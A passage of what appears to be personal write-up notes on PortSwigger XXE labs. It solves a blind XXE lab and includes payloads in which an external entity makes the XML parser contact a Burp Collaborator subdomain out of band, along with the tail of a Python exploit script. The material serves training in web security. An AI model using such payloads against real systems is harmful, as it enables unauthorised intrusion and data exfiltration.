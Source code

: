 ```
    url = sys.argv[1]
    exploit_xxe(s, url)
```

## **3. Blind XXE with out-of-band interaction**
This lab has a "Check stock" feature that parses XML input but does not display the result.
You can detect the [blind XXE](https://portswigger.net/web-security/xxe/blind) vulnerability by triggering out-of-band interactions with an external domain.
To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

1. Visit a product page, click "Check stock" and intercept the resulting POST request in [Burp Suite Professional](https://portswigger.net/burp/pro).
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
    `<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`
3. Replace the `productId` number with a reference to the external entity:
    `&xxe;`
4. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

Analysis:

- testing for XXE vulnerability (using internal XXE)
![[Pasted image 20240927012427.png]]

- we will try an external XXE (same response)
![[Pasted image 20240927012657.png]]

- we observe that we are in a blind XXE injection case (out of band) so we will use an external server in order to obtain a DNS lookup (we have to use burp collaborator)
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY nbyte SYSTEM "http://Burp-Collaborator-SubDomain">]>
<stockCheck>
	<productId>
		&nbyte;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

![[Pasted image 20240927013218.png]]

## **4. Blind XXE with out-of-band interaction via XML parameter entities**
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
